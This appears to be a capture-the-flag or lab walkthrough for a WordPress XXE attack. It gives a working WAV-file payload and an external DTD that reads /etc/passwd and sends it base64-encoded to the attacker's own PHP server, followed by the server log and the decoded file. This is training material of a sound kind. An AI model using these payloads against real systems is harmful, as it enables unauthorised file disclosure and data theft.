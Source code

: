 
## 🌐 Web Exploitation 

- Create these 2 payloads that were explained at the beginning of the room.

  ```
  echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[YOUR-THM-IP]:PORT/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav

  nano evil.dtd
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://[YOUR-THM-IP]:PORT/?p=%file;'>" >
  ```
  
- Now visit the admin page `/wp-login` and login with credentials `test-corp:test`. Start a PHP server and upload the `payload.wav` from `Media` section. You should get encoded response as soon as you upload the payload.

  ```
  php -S 0.0.0.0:4444
  [Sun May 25 20:23:29 2025] PHP 8.4.4 Development Server (http://0.0.0.0:4444) started
  [Sun May 25 20:23:49 2025] 10.10.157.7:40420 Accepted
  [Sun May 25 20:23:49 2025] 10.10.157.7:40420 [200]: GET /evil.dtd
  [Sun May 25 20:23:49 2025] 10.10.157.7:40420 Closing
  [Sun May 25 20:23:49 2025] 10.10.157.7:40422 Accepted
  [Sun May 25 20:23:49 2025] 10.10.157.7:40422 [404]: GET /?p=cm9vdDp4OjA6MDpyb290Oiy9naWLCw6L33N0dXg6L2Jpbi9iYXNoCnNzaGQ6eDoxMDg6NjU1MzQ6[SNIP!]3Ok15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQo= - No such file or directory
  [Sun May 25 20:23:49 2025] 10.10.157.7:40422 Closing
  [Sun May 25 20:23:49 2025] 10.10.157.7:40424 Accepted
  [Sun May 25 20:23:49 2025] 10.10.157.7:40424 [200]: GET /evil.dtd
  [Sun May 25 20:23:49 2025] 10.10.157.7:40424 Closing
  [Sun May 25 20:23:50 2025] 10.10.157.7:40426 Accepted
  [Sun May 25 20:23:50 2025] 10.10.157.7:40426 [404]: GET /?p=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxO3lzdGVzZQpzdHV4Ong6M[SNIP!]G9naW4KbXlzcWw6eDoxMDk6MTE3Ok15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQo= - No such file or directory
  [Sun May 25 20:23:50 2025] 10.10.157.7:40426 Closing
  ```
  
- When you decode this string you will see `/etc/passwd` which confirms that exploit works and that server is vulnerable.

  ```
  echo '[STRING]' | base64 -d
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
  systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
  systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
  systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
  ```